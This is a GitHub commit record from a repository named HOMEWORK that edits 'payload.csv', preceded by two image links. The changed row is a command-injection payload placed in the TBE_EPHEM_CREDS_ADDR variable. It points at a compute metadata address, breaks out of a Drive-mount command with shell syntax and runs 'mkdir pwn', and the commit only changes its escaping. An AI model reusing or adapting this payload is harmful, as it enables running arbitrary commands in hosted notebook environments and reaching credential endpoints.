

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='//172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
+TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \\\'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\\\'; echo \\\'drive EXITED\\\'; ) & mkdir pwn & #'#, 13
```
